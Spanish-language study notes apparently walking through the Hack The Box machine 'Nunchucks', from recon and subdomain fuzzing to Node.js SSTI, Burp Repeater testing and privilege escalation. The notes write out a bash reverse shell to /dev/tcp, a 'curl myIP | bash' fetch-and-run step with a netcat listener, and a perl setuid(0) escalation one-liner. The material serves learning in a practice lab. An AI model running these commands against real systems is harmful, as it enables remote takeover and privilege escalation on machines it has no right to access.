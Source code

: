 Cuándo estamos ante una máquina nueva, tenemos que empezar con la fase de reconocimiento, que haremos con [[Nmap]].

### RECONOCIMIENTO

Si nuestra máquina tiene el puerto 80 abierto ([[http]]), usaremos el comando:

>[[whatweb]] IP

Pero nos sale un error, eso es porque esa IP no está apuntando hacia la página a la que debería apuntar.

Para solucionar esto, debemos debemos modificar el [[/etc/hosts]], y ponemos la [[ip]] victima apuntando hacia el [[dominio]] al que queremos que apunte.

Nos encontramos ante una página estática, en la que no podemos usar el campo para registrarse.

### SUBDOMINIOS

**Pero, ¿y si hay [[subdominios]]?**

Vamos a usar un diccionario de github para ver si encontramos algo:

1. Buscamos el diccionario de "seclists".

2. Dentro del path "discovery > DNS", encontramos los posibles subdominios más comunes dentro de las páginas webs.

3. Una vez elegido el fichero (podemos elegir el más grande, aunque implique más tiempo), hacemos un [[wget]] del enlace, y ya lo tenemos descargado.

4. Una vez que tenemos el fichero descargado, vamos a usar [[Gobuster]]:

> `gobuster vhost -w diccionary -u URL -k`

EL `-K` ES SOLO PARA CUÁNDO ES [[HTTPS]]

- `vhost`: quiero ver si se aplican de otro hosting.
- `-k`: página segura (HTTPS). 

5. Una vez terminado el escáneo, tendremos los subdominios... LOS SUBDOMINIOS DEBEN INTRODUCIRSE DELANTE DEL DOMINIO, por ejemplo:

> https://store.nunchucks.htb

No nos funcionará, porque hay que añadirlo también al [[/etc/hosts]] (se pone al lado del dominio original):

`ip domain subdomain`

6. Dentro de este subdominio, encontramos un recuadro en el que poder introducir nuestro correo.

Siempre que veamos un recuadro, debemos hacer diferentes pruebas.

Si al introducir algo, esa página nos devuelve algo de texto, lo más seguro es que estemos ante una vulnerabilidad llamada: [[server side template inyection]] o [[ssti]].

Esta vulnerabilidad se puede encontrar poniendo, por ejemplo:

> `{{2*2}}`


7. Una vez que sabemos que estamos ante esta vulnerabilidad, debemos de saber qué tecnologías corren detrás de esta página web usando `whatweb`.

Podemos usar la extensión "[[Wappalyzer]]" para saber más información que con whatweb.

Algo importante es saber en qué lenguaje corre la página web, en este caso: "[[Node.js]]". Ahora que sabemos el lenguaje, y que podemos hacer un [[ssti]], vamos a investigar en Google qué se puede hacer ahora:

> node.js ssti

Y la cosa es encontrar un payload que nos pueda servir para explotar esta vulnerabilidad.

Investigando, veremos que hay una línea de código que si la introduccimos, nos dará un error y nos pedirá que introduzcamos un correo válido.

Cuándo pasa esto, podemos usar burpsuite para ver qué está pasando.

### BURPSUITE
8. Abrimos [[burpsuite]] y ponemos un correo válido, que se pueda enviar. Una vez que estemos investigando el trámite, veremos abajo del todo un campo que está curioso, es el de "email".

Antes no podíamos introducir el exploit en la parte del correo, pero... **¿Qué pasaría si cambiasemos ahora el correo?** 

Si modificamos el correo que habíamos introducido, cambiandolo al código malicioso.

[[REPEATER]]

Si con el código nuevo, le damos a `Control + R`, enviaremos la petición al Repeater, dónde yo puedo hacer pruebas, para ver qué me responde el error.

Enviamos la petición, a ver qué nos devuelve el servidor, y nos devuelve un error, porque tenemos "escapar el texto": 

- Ponemos una barrita a la inversa dónde comienza el texto no reconocido cómo código malicioso (osea, que sale en negrita en vez de verde), y para convertirlo en más código ponemos `\`.

### SHELL RIVERSA

9. Ahora, vemos que si por ejemplo cambiamos la parte de: `tail /etc/hosts` por, por ejemplo, `ls -l`, veremos que tenemos control remoto sobre esta máquina.

**¿Qué hacemos cuándo sabemos que tenemos control remoto sobre una máquina?**

Conseguir la [[Shell Riversa]].

Aquí tenemos muchas opciones: un payload con MSFVENOM, utilizar pyhon para mandarme un fichero [[python]] y a través de un módulo Schokets para enviarme la Shell Riversa...

10. Vamos a hacerlo por la vía fácil, vamos a crear un archivo [[html]] que tenga un código que se encargue de enviarnos una shell riversa con el que nos lo descargue con un servidor python, que se código sea interpretado por [[Bash]] y que nos envíe la shell riversa por [[Netcat]].

	1. Creamos un fichero que se llama [[index-html]].

	2. Ponemos lo siguiente:

		- #!/bin/bash
		- [[bash -i >& /dev/tcp/myIP/port 0>&1]]
		- **la IP coger la de tun0 (HTB), pero nuestra IP es la de eth0**


		Creamos un servidor python por el puerto 80 corriendo, entonces, en la zona de repeater ponemos el siguiente código para ver cómo responde la página cuándo se descargue el siguiente enlace:

		- [curl myIP | bash]

			- [[Curl]]: obtener. en este caso, el documento html, el contenido del servidor web.
			- [[Bash]]: lo que acabas de descargar, interpretámelo con bash y ejecútame lo que está dentro de ese código.

		Abrimos un puerto de escucha con [[Netcat]]: 

		- [[sudo nc -nlvp port]]
			- El puerto debe ser el especificado en el archivo .html.


### ESCALADA DE PRIVILEGIOS

> [[getcap -r / 2>/dev/null]]
> 
> Esto sirve para ver qué cosas puedo hacer con mi actual usuario.

Podemos usar código [[perl]] con los que poder aumentar de privilegios.

Podemos crearnos un script que podemos ejecutar siendo el usuario David:

> perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "whoami";'







